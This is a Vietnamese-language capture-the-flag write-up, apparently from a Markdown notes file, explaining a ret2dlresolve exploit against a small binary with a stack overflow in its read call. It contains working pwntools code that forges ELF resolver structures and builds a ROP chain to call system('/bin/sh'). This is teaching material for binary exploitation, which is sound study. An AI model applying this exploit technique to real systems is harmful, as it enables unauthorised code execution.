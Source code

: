 - Đây là một `challenge` code khá đơn giản khi mà nó chỉ có mỗi hàm `read` để ghi dữ liệu vào `buf` tại hàm `vuln`

- ![image-20230324165402275](./assets/image-20230324165402275.png)

- ![image-20230324165452310](./assets/image-20230324165452310.png)

- nhìn thì ta thấy ngay `overflow`, tùy nhiên với từng này ta không thể làm được gì

- ![image-20230324165705936](./assets/image-20230324165705936.png)

- Sau khi kiểm tra bằng `vmmap` ta có thể thấy rằng phân vùng `binary` ghi được có đoạn địa chỉ bắt đầu từ `0x4` do đó ta có thể sử dụng kỹ thuật `ret2dlresolve`.

- Ta sẽ giả mạo `reloc_arg`, `STRTAB`, `SYMTAB` và `JMPREL` để `dlresolve` thực thi `system('/bin/sh')`

- Đầu tiên ta sẽ kiếm giá trị base của 3 struct `STRTAB`, `SYMTAB`, `JMPREL` và các `gadget` cần thiết

- ```python
  dlresol = 0x401020
  pop_rsi = 0x4011b9
  addr    = 0x404e00
  lret    = 0x401141
  pop_rdi = 0x4011bb
  pop_rbp = 0x401109
  
  STRTAB  = 0x400390
  SYMTAB  = 0x400330
  JMPREL  = 0x400430
  ```

- Tạo các fake `STRTAB`, `SYMTAB`, `JMPREL`

- ```python
  new_STRTAB  = addr + 0x98
  new_SYMTAB  = addr + 0x50
  new_JMPREL  = addr + 0x78
  
  symbol_num  = int((new_SYMTAB - SYMTAB)/0x18)
  reloc_arg   = int((new_JMPREL - JMPREL)/0x18)
  
  st_name = new_STRTAB - STRTAB
  st_info = 0x12
  st_oth  = 0
  st_ndx  = 0
  st_val  = 0
  st_size = 0
  
  SYMTAB_struct = p32(st_name) \
      + p8(st_info) \
      + p8(st_oth) \
      + p16(st_ndx) \
      + p64(st_val) \
      + p64(st_size)
      
  r_info   = (symbol_num << 32) | 7
  r_addend = 0
  r_offset = exe.got['read'] + 0x20
  JMPREL_struct = flat(r_offset, r_info, r_addend)
  ```

 - sau khi fake ta sẽ nạp chúng vào địa chỉ trên thông qua hàm `read`, đồng thời setup cho việc gọi `dlresolve`

 - ```python
   payload = b'a'*0x40
   payload += flat(
       addr,
       pop_rsi, addr + 0x48, 0,
       exe.sym['read'],
       pop_rdi, addr + 0xa0,
       dlresol, reloc_arg,
   ).ljust(0xc8-0x40, b'a')
   
   s(payload)
   ```

 - gửi các `fake struct`

 - ```python
   payload = flat(
       SYMTAB_struct,
       0, 0,
       JMPREL_struct,
       0, 0,
       b'system\x00\x00',
       b'/bin/sh\x00'
   )
   
   s(payload)
   ```

 - `JMPREL fake`

 - ![image-20230324173322556](./assets/image-20230324173322556.png)

 - `SYMTAB fake`

 - ![image-20230324173410237](./assets/image-20230324173410237.png)

 - `STRTAB fake`

 - ![image-20230324173456046](./assets/image-20230324173456046.png)

 - trước khi thưc hiện `dlresolve` ta sẽ `pop rdi` tương ứng là`/bin/sh`

 - ![image-20230324173552924](./assets/image-20230324173552924.png)
